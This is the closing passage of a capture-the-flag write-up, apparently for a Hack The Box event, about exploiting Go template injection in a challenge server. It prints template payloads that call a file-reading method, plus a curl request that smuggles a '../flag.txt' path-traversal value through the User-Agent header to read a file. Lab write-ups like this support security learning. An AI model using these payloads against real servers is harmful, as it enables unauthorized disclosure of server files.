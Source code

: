 The first function cannot be injected as it is not passed an attribute of the template that we can use. The second function however is vulnerable. I specifically chose this function as it reads a file from the server and returns its content. This means that we can read any file we want on the server.

### Exploiting the Vulnerability
Now to exploit the vulnerability, we of course need to host a website that implements the given templates. Luckily, Go provides its own [playground](https://go.dev/play/) for testing code that we can use. Lets make a simple website that uses one of their templates and see the responses.
```html
<!DOCTYPE html>
<html>
    <head>
        <title>Test Page</title>
    </head>
    <body>
        <p>{% raw %}{{ . }}{% endraw %}</p>
    </body>
</html>
```
This page simply renders all the templates we have available to us, but we can equally call a simple template like `.ServerInfo.Hostname`.
As discussed previously, our job is to read a file from the server (flag.txt). Lets adapt our page:
```
<!DOCTYPE html>
<html>
    <head>
        <title>Test Page</title>
    </head>
    <body>
        <p>{% raw %} {{.OutFileContents .ClientUA}}{% endraw %} </p>
    </body>
</html>
```
This page will call the `OutFileContents()` function from the `main.go` file and pass in our UserAgent as a parameter. Now why not just pass in the file we want to read? Well, since the function expects an argument of type `RequestData`, so we might not be always able to pass it a string. We will have to modify our UserAgent when sending our request. We can either do this with BurpSuite, but a simple curl can also do the trick:
```
curl  -H "User-Agent: ../flag.txt" 'http://<IP>:<PORT>/render?use_remote=true&page=https://go.dev/play/p/<ID_TO_OUR_TEST_PAGE>.go?download=true'
```
We have found the flag.

## Conclusion
These small challenges, although rated as easy by the developers, did caught me off guard sometimes. Overall I learned quite some new things and had great fun in solving the challenges. Big shout out to Hack The Box for organizing this event!
